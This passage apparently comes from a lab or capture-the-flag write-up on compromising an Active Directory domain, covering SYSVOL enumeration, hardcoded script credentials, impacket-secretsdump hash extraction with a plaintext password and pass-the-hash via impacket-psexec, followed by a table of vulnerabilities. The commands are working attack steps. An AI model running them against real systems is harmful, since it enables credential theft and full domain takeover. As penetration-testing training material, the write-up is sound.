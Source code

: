 **Achievement**: Compromised service account (enterprise-core-vn) with elevated privileges

### Phase 5: Privilege Escalation via SYSVOL

**Objective**: Exploit administrative script misconfigurations

```bash
# SYSVOL share analysis
smbclient \\\\$target\\SYSVOL -U 'enterprise-core-vn'
```

**Critical Finding**: Discovered hardcoded administrative credentials in resetpassword.vbs script

### Phase 6: Domain Administrative Access

**Objective**: Achieve complete domain control

```bash
# Domain administrator verification
whoami /all

# Complete hash extraction
impacket-secretsdump -just-dc-ntlm vulnnet-rst.local/a-Whitehat:bNdKVkjv3RR9ht@$target

# Pass-the-hash administrative access
impacket-psexec vulnnet-rst.local/Administrator@$target -hashes : [HASH]
```

**Final Result**: Complete domain compromise with SYSTEM-level access and all user credentials

---

## 🚨 Critical Vulnerabilities Identified

### High-Risk Findings

| Vulnerability                        | Risk Level         | Impact                                           |
| ------------------------------------ | ------------------ | ------------------------------------------------ |
| Anonymous SMB Share Access           | **Critical** | Information disclosure, username enumeration     |
| Disabled Kerberos Pre-authentication | **High**     | Credential compromise via AS-REP Roasting        |
| Weak Service Account Passwords       | **Critical** | Service account compromise, privilege escalation |
| Hardcoded Credentials in Scripts     | **Critical** | Administrative account compromise                |
| Excessive Service Account Privileges | **High**     | Lateral movement, privilege escalation           |

### Attack Vector Analysis

- **Initial Access**: Anonymous SMB shares provided username enumeration capabilities
- **Credential Harvesting**: AS-REP Roasting and Kerberoasting yielded multiple account compromises
- **Privilege Escalation**: SYSVOL script analysis revealed administrative credentials
- **Domain Domination**: Administrative access enabled complete credential database extraction

---